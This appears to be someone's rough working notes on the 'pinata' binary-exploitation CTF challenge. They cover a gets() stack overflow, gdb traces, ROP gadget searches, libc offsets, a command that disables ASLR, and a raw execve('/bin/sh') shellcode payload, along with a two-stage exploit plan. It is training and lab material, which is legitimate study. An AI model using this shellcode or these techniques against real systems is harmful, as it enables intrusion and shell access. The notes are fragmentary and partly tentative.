 # pinata

## Solution

```sh

readelf -e pinata
```

```c
int reader(UI *ui,UI_STRING *uis)
{
  char *pcVar1;
  char local_18 [16];
  
  pcVar1 = gets(local_18);
  return (int)pcVar1;
}
```

gdb - `b *reader`

AAAAAAAAAAAAAAAABBBBBBBBCCCCCCCC
RBP  0x7fffffffda70 ◂— 'BBBBBBBBCCCCCCCC'
RSP  0x7fffffffda60 ◂— 'AAAAAAAAAAAAAAAABBBBBBBBCCCCCCCC'

`LEAVE`

*RBP  0x4242424242424242 ('BBBBBBBB')
*RSP  0x7fffffffda78 ◂— 'CCCCCCCC'
*RIP  0x401889 (reader+30) ◂— ret

`RET`

Reminder:
  - The `LEAVE` instruction copies the frame pointer (in the EBP register) into the stack pointer register (ESP)
  - `RET` Transfers program control to a return address located on the top of the stack.

so need to return back to libc? or is there a function somewhere?

```sh
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

note: `FUN_0045c00f` and `FUN_0047f1a9` seem strange...

/bin/sh
exit
system

https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc

strings -a -t x /lib/i386-linux-gnu/libc-2.27.so | grep "/bin/sh"

```sh
readelf -s ./glibc/libc.so.6 | grep system
# 1406: 000000000004f420    45 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.2.5

readelf -s ./glibc/libc.so.6 | grep gets
# 89: 0000000000080060   432 FUNC    WEAK   DEFAULT   13 gets@@GLIBC_2.2.5

strings -a -t x ./glibc/libc.so.6 | grep /bin/sh
# 1b3d88 /bin/sh

ROPgadget --binary pinata | grep 'pop rdi'
# 0x0000000000401f6f : pop rdi ; ret

ROPgadget --binary pinata | grep "pop rbx ; ret"
# 0x00000000004019a0 : pop rbx ; ret

ROPgadget --binary pinata | grep "pop rax ; ret"
# 0x0000000000448017 : pop rax ; ret

ROPgadget --binary pinata | grep "int 0x80"
# 0x0000000000402fbf : int 0x80
```


https://www.exploit-db.com/exploits/42428

https://wiki.bi0s.in/pwning/rop/static/

python3 
b'AAAAAAAABBBBBBBBCCCCCCCC\xb0\xda\xff\xff\xff\x7f\x00\x00\x90\x90\x90\x90\x90\x90\x90\x90jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80\x90\x90\x90\x90\x00\x00\x00\x00\xef\xbe\xad\xde\x00\x00\x00\x00'


(echo "2"; python3 -c "import sys; sys.stdout.buffer.write(b'A'*56)") | ./pb

(python3 -c "import sys; sys.stdout.buffer.write(b'A')") | ./pinata

```sh
# https://blog.kuhi.to/rop-with-one-gadget/

objdump -T pinata
```

```sh
file pinata
# pinata: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=2dcf43face3a1fa76053b1589acf3b6e12d2eba4, for GNU/Linux 3.2.0, not stripped

checksec --file=pinata
# Arch:     amd64-64-little
# RELRO:    Partial RELRO
# Stack:    Canary found
# NX:       NX disabled
# PIE:      No PIE (0x400000)
# RWX:      Has RWX segments
```

p /s $rip

https://www.youtube.com/watch?v=790lGRdyXaE


```txt
main 0x40188a
reader 0x40186b
...
0x401888 <reader+29>    leave
0x401889 <reader+30>    ret


$1 = {<text variable, no debug info>} 0x469d60 <fputs>
```

```sh
readelf -s pinata | grep 'puts'
# 2004: 0000000000469d60   294 FUNC    WEAK   HIDDEN     7 fputs

readelf -s pinata | grep 'write'
# 1325: 0000000000447650   157 FUNC    WEAK   HIDDEN     7 write

```

```c
// both 64-bit pointers
int reader(UI *ui,UI_STRING *uis) {
  char *pcVar1;
  char local_18 [16];
  
  pcVar1 = gets(local_18);
  return (int)pcVar1;
}
```

- reader() 1st pass: overflow buffer with call to puts($RIP) (leak stack address) and ret address of reader()
- reader() 2nd pass: overflow buffer with shellcode and ret address of calculated stack offset to shellcode


write 0x447650

```sh
ROPgadget --binary pinata | grep "jmp rbp"

# - The `LEAVE` instruction copies the frame pointer (in the EBP register) into the stack pointer register (ESP)
# - `RET` Transfers program control to a return address located on the top of the stack.

# 0x000000000046055d : jmp rbp
# 0x0000000000418c22 : push rsp ; ret
# 0x00000000004023ce : pop rsp ; ret
# 0x000000000047a3db : mov rbp, rsp ; mov rsi, rbp ; syscall
# 0x000000000047e1d1 : mov ebx, dword ptr [rsp] ; add rsp, 0x30 ; ret
# 0x000000000046cf2f : nop ; add rsp, 0x18 ; ret                 # 0x18 = 24
# 0x0000000000419898 : xor eax, eax ; add rsp, 8 ; ret
```

`x/64x $rsp`

## Alternate Solution

https://tig3rpuppet.blog/2023/10/28/hack-the-boo-2023-writeups/#pinata

using `environ` (https://github.com/Naetw/CTF-pwn-tips#leak-stack-address)
